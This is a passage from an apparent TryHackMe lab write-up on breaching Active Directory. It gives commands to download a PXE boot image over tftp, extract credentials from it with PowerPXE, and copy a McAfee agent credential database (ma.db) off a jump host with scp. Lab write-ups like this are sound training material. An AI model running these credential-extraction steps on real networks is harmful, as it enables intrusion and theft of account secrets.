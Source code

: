 Next is to use tftp to download the boot image

```powershell
tftp -i 10.200.54.202 GET "\Boot\x64\Images\LiteTouchPE_x64.wim" pxeboot.wim
```

![](attachments/20240504005539.png)

Using PowerPXE, we can extract the credentials from the boot image:

```powershell
Get-FindCredentials -WimFIle pxeboot.wim
```

![](attachments/20240504010043.png)

# Task 7: Configuration Files

SSH into thmjmp1 and navigate to the location of the McAfee database file `ma.db`

![](attachments/20240504011159.png)

Copy the `ma.db` file to your machine using `scp`

On your own machine, run the following:

```shell
scp thm@THMJMP1.za.tryhackme.com:C:/ProgramData/McAfee/Agent/DB/ma.db .
```

![](attachments/20240504011827.png)
